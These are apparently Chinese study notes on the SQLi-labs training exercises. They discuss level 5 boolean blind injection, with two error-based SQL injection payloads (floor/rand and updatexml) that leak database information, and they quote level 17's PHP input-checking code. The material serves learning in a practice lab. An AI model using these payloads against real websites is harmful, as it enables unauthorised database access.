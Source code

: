 
#### **第五关的疑问：**

第五关是布尔盲注，但是布尔盲注的payload肯定符合语法，只是说通过语法内容的正确与否来（是否回显固定内容），来获取信息。但是有时候如果使用错误语法的payload，也有回显。


```
?id=1' union Select 1,count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+
# 显示数据库名
```

```
?id=1' union select 1,count(*),updatexml(1,concat(0x3a,(select group_concat(column_name) from information_schema.schemata),0x3a),1)a from information_schema.columns group by a--+
# 报错：Only constant XPATH queries are supported（仅支持常量 XPATH 查询）
```







#### **第十七关的疑问：**

这一关用的使增删改部分，建议看看 *SQL 注入天书* 和后端代码

**源码：**

```php
<?php
function check_input($value) // 检查输入的账户名
{
    if (!empty($value)) // 如果账户名不为空则进行以下判断
    {
        // truncation (see comments)
        $value = substr($value, 0, 15); // 截取账户名前15的字符
    }

    // Stripslashes if magic quotes enabled
    if (get_magic_quotes_gpc()) // 该函数是都是on也就是打开，打开则进入一下判断
    // 该函数的作用是给（' " / null）特殊字符加上反斜杠转义
    //默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()，（PS:也是这作用）
    {
        $value = stripslashes($value); // 删除反斜杠
    }

    // Quote if not a number
    if (!ctype_digit($value)) // uname字符串如果是非数字，则将其中的特殊字符转义
    {
        $value = "'" . mysql_real_escape_string($value) . "'"; // 函数转义 SQL 语句中使用的字符串中的特殊字符。
    } else //如果是数字
    {
        $value = intval($value); // 变成整数
    }
    return $value;
}
?>
```
